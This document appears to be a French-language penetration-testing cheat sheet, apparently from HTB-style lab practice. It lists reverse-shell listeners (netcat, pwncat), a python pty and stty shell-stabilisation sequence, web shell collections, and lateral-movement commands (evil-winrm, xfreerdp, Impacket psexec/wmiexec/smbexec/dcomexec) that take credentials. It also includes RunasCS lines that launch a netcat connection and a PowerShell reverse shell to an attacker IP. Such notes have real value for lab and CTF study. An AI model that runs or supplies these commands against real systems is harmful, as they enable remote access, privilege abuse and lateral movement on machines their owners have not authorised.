 # Listeneur

## Netcat

```bash
nc -lnvp 1234
```

## Pwncat

```bash
pwncat-cs :4444
```

```bash
ctrl + D    # Vrai shell
privesc -l
```

## Shell stable

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
www-data@target$ ^Z

4th3n4x@kali[/]$ stty raw -echo
4th3n4x@kali[/]$ fg

[Enter]
[Enter]
www-data@target$

4th3n4x@kali[/]$ echo $TERM
xterm-256color

4th3n4x@htb[/htb]$ stty size
67 318

www-data@remotehost$ export TERM=xterm-256color
www-data@remotehost$ stty rows 67 columns 318
```

```bash
/bin/bash -i
perl —e 'exec "/bin/sh";'
```

## Meterpreter

```bash
shell
SHELL=/bin/bash script -q /dev/null
```

# Web Shell

```bash
$ laudanum       

> laudanum ~ Collection of injectable web files

/usr/share/laudanum
├── asp
├── aspx
├── cfm
├── helpers
├── jsp
├── php
└── wordpress
```

```bash
nishang/Antak-WebShell
```

```bash
[wwwolf-php-webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)
```

# Connection à distance

## Winrm

```bash
evil-winrm
```

## RDP

```bash
xfreerdp /u:jim /p:'Castello1!' /v:172.16.114.30 /cert:ignore /drive:linux,/home/kali
```

# Impacket

## SMBexec

```bash
impacket-smbexec user:'pass123'@domaine.local
```

## PSexec
```bash
impacket-psexec user:'pass123'@domaine.local
```

## DCOMexec
```bash
impacket-dcomexec user:'pass123'@domaine.local
```

## WMIexec
```bash
impacket-wmiexec user:'pass123'@domaine.local
```

# Exécuter à la place d'un autre utilisateur

## Linux

```bash
sudo -u username command
```

## Windows

### PowerShell

```powershell
Start-Process -FilePath "path\to\command" -Credential (Get-Credential)
Start-Process "runas" -ArgumentList "/user:domain\username cmd.exe"
```

### Runas

```powershell
runas /user:domain\username "cmd.exe"
```

### RunasCS.exe

```powershell
runasCS.exe admin password "nc ip port"
./runas.exe mikasa IL0v3 powershell -r 10.10.14.177:1235
